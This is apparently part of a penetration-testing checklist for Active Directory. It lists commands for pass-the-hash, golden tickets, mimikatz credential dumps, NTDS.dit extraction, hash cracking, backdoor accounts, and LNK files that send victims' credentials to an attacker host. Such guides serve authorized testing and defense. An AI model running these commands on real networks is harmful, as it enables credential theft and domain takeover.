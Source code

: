 ### Phase 4: Lateral Movement & Persistence (30 minutes)
```bash
# ✅ Systematic Lateral Movement
crackmapexec smb target_range -u admin -H hash --pwn3d
```

#### Lateral Movement Techniques
- [ ] **Pass-the-Hash** - `psexec.py -hashes :hash admin@target`
- [ ] **Pass-the-Ticket** - `kerberos::ptt ticket.kirbi`
- [ ] **Golden/Silver Tickets** - `kerberos::golden` for persistence
- [ ] **WMI/WinRM** - Alternative execution methods

#### Persistence & Impact
- [ ] **Backdoor Accounts** - Create domain admin accounts for persistence
- [ ] **Data Extraction** - Identify and document sensitive data access
- [ ] **Service Disruption Testing** - Demonstrate impact potential
- [ ] **Complete Domain Compromise** - NTDS.dit extraction if possible

### Phase 5: Post-Domain Compromise - "Welcome to My Domain!" 🦝 (60 minutes)
```bash
# ✅ Maximum Value Demonstration
secretsdump.py domain/admin@dc.target.local -ntds
```

#### **[Post-Domain Compromise Strategy](./post-domain-compromise-strategy.md)** - Complete Value Demonstration
- [ ] **[NTDS.dit Extraction](./ntds-dit-extraction.md)** - `secretsdump.py domain/admin@dc -just-dc-ntlm`
- [ ] **Password Cracking Analysis** - `hashcat -m 1000 ntds_hashes.txt rockyou.txt`
- [ ] **[Golden Ticket Creation](./golden-ticket-attacks.md)** - `mimikatz "kerberos::golden /krbtgt:HASH"`
- [ ] **Sensitive Data Discovery** - Enumerate shares for confidential information
- [ ] **Persistence Establishment** - Golden tickets and backdoor accounts
- [ ] **Business Impact Documentation** - Quantify the compromise impact
- [ ] **Attack Chain Validation** - Test alternative compromise methods
- [ ] **Professional Cleanup** - Document and remove all persistence mechanisms

## ⚡ Quick Command Reference

### Essential One-Liners
```bash
# Kerberoasting
GetUserSPNs.py domain.local/user:pass -dc-ip DC_IP -request

# GPP Password Extraction  
auxiliary/scanner/smb/smb_enum_gpp

# Credential Testing
crackmapexec smb target_range -u user -p pass --shares

# Token Impersonation
load incognito; list_tokens -u; impersonate_token DOMAIN\\admin

# LNK File Deployment
netexec smb target -d domain -u user -p pass -M slinky -o NAME=doc SERVER=attacker_ip

# Mimikatz Credential Dump
privilege::debug; sekurlsa::logonpasswords

# BloodHound Data Collection
bloodhound-python -d domain.local -u user -p pass -gc dc.domain.local -c all

```